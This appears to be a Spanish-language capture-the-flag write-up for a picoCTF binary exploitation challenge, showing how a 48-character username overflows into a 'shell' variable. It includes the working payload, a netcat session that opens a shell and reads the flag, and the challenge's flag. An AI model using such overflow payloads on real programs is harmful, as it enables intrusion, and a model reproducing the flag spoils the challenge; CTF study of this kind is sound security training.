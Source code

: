 #notas_hacking #binary_explotation #contests

## Descripción
This program greets you and then runs a command. But can you take control of what command it executes?Connect to the program with netcat: `nc saffron-estate.picoctf.net 57252`.You can Download the program file [here](https://challenge-files.picoctf.net/c_saffron_estate/e879248ec4ac5a892b9ef8b7db9d6379aa8d4b35db0f9335238a690ba5036fae/vuln). And source [code](https://challenge-files.picoctf.net/c_saffron_estate/e879248ec4ac5a892b9ef8b7db9d6379aa8d4b35db0f9335238a690ba5036fae/vuln.c)
## Solución
Metiendo distintos valores nos damos cuenta que después de 48 caracteres empieza a modificarse la variable `shell`.
La distancia entre las direcciones es de 48:
```
username at 0x2342a2a0
shell at 0x2342a2d0
```
entonces ingresamos 48 caracteres y el comando `sh` para ejecutar la terminal donde ejecutar cat `flag.txt`.
```
```bash
┌──(kali㉿kali)-[~/pico/picoMini/Input_Injection2]
└─$ nc saffron-estate.picoctf.net 57252
username at 0x2342a2a0
shell at 0x2342a2d0
Enter username: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaash
ls
flag.txt
cat flag.txt
picoCTF{us3rn4m3_2_sh3ll_466d4bae}
exit
Hello, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaash. Your shell is sh.
```
## Notas adicionales

## Referencias
